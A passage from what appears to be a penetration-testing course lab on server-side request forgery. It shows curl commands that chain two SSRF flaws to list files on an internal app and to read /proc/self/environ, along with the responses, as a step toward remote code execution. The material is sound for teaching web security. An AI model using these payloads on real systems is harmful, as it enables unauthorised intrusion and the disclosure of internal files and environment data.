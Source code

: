 We have found another application listening on port 5000. In this case, the application responds with a list of files.

**cURL - Interacting with the Target**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>
```

Let us make a quick recap of what we have achieved:

* Issue requests on behalf of ubuntu-web to internal.app.local
* Reach a web application listening on port 5000 inside internal.app.local chaining two SSRF vulnerabilities
* Disclose a list of files via the internal application

Let us now uncover the source code of the web applications listening on `internal.app.local` to see how we can achieve remote code execution.

Let us issue a request to disclose `/proc/self/environ` file, where the current path should be present under the `PWD` environment variable.

**cURL - Interacting with the Target**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 584
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 16:52:20 GMT

<html><body><h1>Resource: file:///proc/self/environ</h1><a>HOSTNAME=18f236843662PYTHON_VERSION=3.8.12PWD=/appPORT=80PYTHON_SETUPTOOLS_VERSION=57.5.0HOME=/rootLANG=C.UTF-8GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568SHLVL=0PYTHON_PIP_VERSION=21.2.4PYTHON_GET_PIP_SHA256=01249aa3e58ffb3e1686b7141b4e9aac4d398ef4ac3012ed9dff8dd9f685ffe0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d781367b97acf0ece7e9e304bf281e99b618bf10/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin_=/usr/local/bin/python3</a></body></html>
```
